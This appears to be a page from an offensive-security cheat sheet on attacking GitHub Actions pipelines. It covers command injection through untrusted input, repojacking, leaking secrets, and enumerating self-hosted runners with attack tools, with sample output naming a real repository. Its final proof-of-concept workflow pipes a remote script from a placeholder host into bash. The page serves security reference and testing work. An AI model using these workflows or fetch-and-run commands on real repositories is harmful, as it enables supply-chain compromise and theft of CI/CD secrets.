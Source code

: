 # GitHub Actions

## Default Action

The configuration files for GH actions are located in the directory `.github/workflows/`\
You can tell if the action builds pull requests based on its trigger (`on`) instructions:

```yaml
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run a command in an action that builds pull requests, add a `run` instruction to it.

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Command execution
    steps:
    - run: echo whoami"
```


## Misconfigured Actions

Analyze repositories to find misconfigured Github actions.

* [synacktiv/octoscan](https://github.com/synacktiv/octoscan) - Octoscan is a static vulnerability scanner for GitHub action workflows.
* [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine) - Poutine is a security scanner that detects misconfigurations and vulnerabilities in the build pipelines of a repository. It supports parsing CI workflows from GitHub Actions and Gitlab CI/CD.
    ```ps1
    # Using Docker
    $ docker run ghcr.io/boostsecurityio/poutine:latest

    # Analyze a local repository
    $ poutine analyze_local .

    # Analyze a remote GitHub repository
    $ poutine -token "$GH_TOKEN" analyze_repo messypoutine/gravy-overflow

    # Analyze all repositories in a GitHub organization
    $ poutine -token "$GH_TOKEN" analyze_org messypoutine

    # Analyze all projects in a self-hosted Gitlab instance
    $ poutine -token "$GL_TOKEN" -scm gitlab -scm-base-uri https://example.com org/repo
    ```


### Repo Jacking

When the action is using a non-existing action, Github username or organization.

```yaml
- uses: non-existing-org/checkout-action
```

> :warning: To protect against repojacking, GitHub employs a security mechanism that disallows the registration of previous repository names with 100 clones in the week before renaming or deleting the owner's account. [The GitHub Actions Worm: Compromising GitHub Repositories Through the Actions Dependency Tree - Asi Greenholts](https://www.paloaltonetworks.com/blog/prisma-cloud/github-actions-worm-dependencies/)


### Untrusted Input Evaluation

An action may be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```


### Extract Sensitive Variables and Secrets

**Variables** are used for non-sensitive configuration data. They are accessible only by GitHub Actions in the context of this environment by using the variable context.

**Secrets** are encrypted environment variables. They are accessible only by GitHub Actions in the context of this environment by using the secret context. 

```yml
jobs:
  build:
    runs-on: ubuntu-latest
    environment: env
    steps:
      - name: Access Secrets
        env:
            SUPER_SECRET_TOKEN: ${{ secrets.SUPER_SECRET_TOKEN }}
        run: |
            echo SUPER_SECRET_TOKEN=$SUPER_SECRET_TOKEN >> local.properties
```

* [synacktiv/gh-hijack-runner](https://github.com/synacktiv/gh-hijack-runner) - A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.




## Self-Hosted Runners

A self-hosted runner for GitHub Actions is a machine that you manage and maintain to run workflows from your GitHub repository. Unlike GitHub's own hosted runners, which operate on GitHub's infrastructure, self-hosted runners run on your own infrastructure. This allows for more control over the hardware, operating system, software, and security of the runner environment. 

Scan a public GitHub Organization for Self-Hosted Runners

* [praetorian-inc/gato](https://github.com/praetorian-inc/gato) - GitHub Actions Pipeline Enumeration and Attack Tool
    ```ps1
    gato -s enumerate -t targetOrg -oJ target_org_gato.json
    ```

There are 2 types of self-hosted runners: non-ephemeral and ephemeral.

* **Ephemeral** runners are short-lived, created to handle a single or limited number of jobs before being terminated. They provide isolation, scalability, and enhanced security since each job runs in a clean environment.
* **Non-ephemeral** runners are long-lived, designed to handle multiple jobs over time. They offer consistency, customization, and can be cost-effective in stable environments where the overhead of provisioning new runners is unnecessary.

Identify the type of self-hosted runner with `gato`:

```ps1
gato e --repository vercel/next.js
[+] The authenticated user is: swisskyrepo
[+] The GitHub Classic PAT has the following scopes: repo, workflow
    - Enumerating: vercel/next.js!
[+] The repository contains a workflow: build_and_deploy.yml that might execute on self-hosted runners!
[+] The repository vercel/next.js contains a previous workflow run that executed on a self-hosted runner!
    - The runner name was: nextjs-hel1-22 and the machine name was nextjs-hel1-22 and the runner type was repository in the Default group with the following labels: self-hosted, linux, x64, metal
[!] The repository contains a non-ephemeral self-hosted runner!
[-] The user can only pull from the repository, but forking is allowed! Only a fork pull-request based attack would be possible.
```

Example of workflow to run on a non-ephemeral runner:

```yml
name: POC
on:
  pull_request:
  
jobs:
  security:
    runs-on: non-ephemeral-runner-name

    steps:
      - name: cmd-exec
        run: |
          curl -k https://ip.ip.ip.ip/exec.sh | bash
```


## References

* [GITHUB ACTIONS EXPLOITATION: SELF HOSTED RUNNERS - Hugo Vincent - 17/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-self-hosted-runners)
* [GITHUB ACTIONS EXPLOITATION: REPO JACKING AND ENVIRONMENT MANIPULATION - Hugo Vincent - 10/07/2024 ](https://www.synacktiv.com/publications/github-actions-exploitation-repo-jacking-and-environment-manipulation)
* [GITHUB ACTIONS EXPLOITATION: DEPENDABOT - Hugo Vincent - 06/08/2024 ](https://www.synacktiv.com/publications/github-actions-exploitation-dependabot)